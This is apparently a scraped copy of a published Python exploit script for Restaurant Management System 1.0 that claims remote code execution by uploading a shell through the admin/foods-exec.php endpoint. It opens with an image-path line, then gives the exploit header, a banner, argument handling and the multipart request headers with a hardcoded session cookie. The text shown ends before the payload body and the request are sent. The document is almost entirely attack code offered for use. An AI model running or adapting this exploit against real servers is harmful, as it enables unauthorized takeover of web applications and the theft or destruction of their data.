<p>correct code::

\# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
\# Date: 2019-10-16
\# Exploit Author: Ibad Shah
\# Vendor Homepage: https://www.sourcecodester.com/users/lewa
\# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
\# Version: N/A
\# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478" ,
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}
